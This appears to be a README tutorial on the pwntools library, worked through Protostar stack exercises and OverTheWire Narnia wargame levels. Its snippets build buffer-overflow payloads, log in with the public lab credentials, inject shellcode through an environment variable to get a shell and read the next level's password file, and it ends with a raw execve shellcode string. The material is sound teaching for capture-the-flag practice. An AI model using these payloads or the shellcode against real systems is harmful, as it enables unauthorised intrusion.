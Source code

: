 # Usage

<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>

![img](assets/1-app-exec.png)

- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```

- Script Output
![img](assets/1-app-script.png)

</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>

![img](assets/2-inop-from-app.png)

- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/2-inop-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>

![img](assets/3-arg-pass.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/3-arg-pass-script.png)

	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>

![img](assets/4-address-pack.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output
![img](assets/4-address-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>

![img](assets/5-env-var.png)

- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/5-env-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>

![img](assets/6-win-address.png)

- Completing the exercise with the found value
![img](assets/6-man-win.png)

- Code
```py
from pwn import *
# from pprint import pprint
elf = ELF("./stack3")

# display all the functions in the binary
# print(elf.symbols)
# print functions information in a pretty way
# pprint(elf.symbols)

# obtain a deciaml value of a specific funciton in the binary
win = elf.symbols['win']

# crafting payload, packing the decimal value as address
payload = b"a"*64 + p32(win)

p = elf.process()
p.sendline(payload)
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/6-win-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Connecting to ssh </summary>
	<p>

![img](assets/7-ssh-conn.png)

- Code
```py
from pwn import *

# create a ssh connection with ssh() and the following parameters, by default the port varible will have the value of 22, if the ssh service is running in its default port, the port argument is not necessary to specify
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# the ssh() connects to the machine and gives some basic infomation about the machine
```

-Script Output
![img](assets/7-ssh-script.png)
</details>

<details>
	<summary>:heavy_check_mark: Executing commands in ssh</summary>
	<p>

![img](assets/8-ssh-cmd.png)

- Code
```py
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# initialising the sh shell with the process()
shell = session.process('sh')

# sending commands to the shell
shell.sendline("whoami")

# reviving the decoding the output from the ssh connection
print(str(shell.recvline(), 'utf-8'))
```

- Script Output
![img](assets/8-ssh-cmd-script.png)
</details>

<details>
	<summary>:heavy_check_mark: Interactive Shell </summary>
	<p>

![img](assets/9-int-shell.png)

- Code
```py
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')
shell = session.process('sh')

# instead of executing a single command, a ssh like shell will be obtained. In which command i/o is possible
shell.interactive()

```

- Script Output
![img](assets/9-int-shell-script.png)
	</p>
</details>

<details>
	<summary>:heavy_check_mark: Using Shellcraft</summary>
	<p>
- Shellcode taken from - [here](http://shell-storm.org/shellcode/files/shellcode-811.php)
- Shellcodes are instructions which the processor executes, these are hexadecimal characters 0x00 to 0xff 
- Every compiled application / program finally transforms into processor instructions inorder to execute
- The obtain shellcode from the above link is loaded in to the variable EGG with python (cause python2 handles all strings as 
bytes)

![img](assets/10-shellcode.png)

- Code
```py
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# generating the shellcode with pwntools
# shellcraft.linux.sh() - provides instructions to be performed in order to obtain shell
# asm() - converts the processor instructions to its equivalent opcodes
payload = asm(shellcraft.linux.sh())

shell = session.process('sh', env={"EGG":payload})
shell.sendline("/narnia/narnia1")

# obtains pseudo interactive shell as narnia2
shell.interactive()

shell.sendline("cat /etc/narnia_pass/narnia2")

```
</details>





## Often Used

28 bytes shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"